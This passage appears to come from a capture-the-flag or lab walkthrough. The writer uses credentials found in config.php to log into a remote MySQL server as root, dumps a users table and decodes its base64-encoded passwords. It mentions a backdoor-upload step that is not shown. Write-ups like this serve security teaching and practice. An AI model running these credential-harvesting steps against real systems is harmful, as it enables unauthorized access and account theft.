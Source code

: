 Alright, now that we know how to upload a backdoor, we need to be able to access this page. Let's try to access mysql remotely using the credentials we found in `config.php`.  

```console
root@kali:~/Desktop# mysql -h 192.168.1.65 -u root -p  
Enter password:  
Welcome to the MySQL monitor.  Commands end with ; or \g.  
Your MySQL connection id is 44533  
Server version: 5.5.47-0+deb8u1 (Debian)  
  
Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved.  
Oracle is a registered trademark of Oracle Corporation and/or its  
affiliates. Other names may be trademarks of their respective  
owners.  
  
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.  
  
**mysql> use Users;**  
Reading table information for completion of table and column names  
You can turn off this feature to get a quicker startup with -A  
  
Database changed  
**mysql> show tables;**  
+-----------------+  
| Tables_in_Users |  
+-----------------+  
| users           |  
+-----------------+  
  
1 row in set (0.00 sec)  
  
**mysql> select * from users;**  
+------+------------------+  
| user | pass             |  
+------+------------------+  
| kent | Sld6WHVCSkpOeQ== |  
| mike | U0lmZHNURW42SQ== |  
| kane | aVN2NVltMkdSbw== |  
+------+------------------+  
3 rows in set (0.00 sec)  
  
mysql>   
```

Passwords look to be in base64 format:  

  * kent: JWzXuBJJNy
  * mike: SIfdsTEn6I
  * kane: iSv5Ym2GRo

_____________________________________________________________________________
  
## 5\. Uploading a backdoor
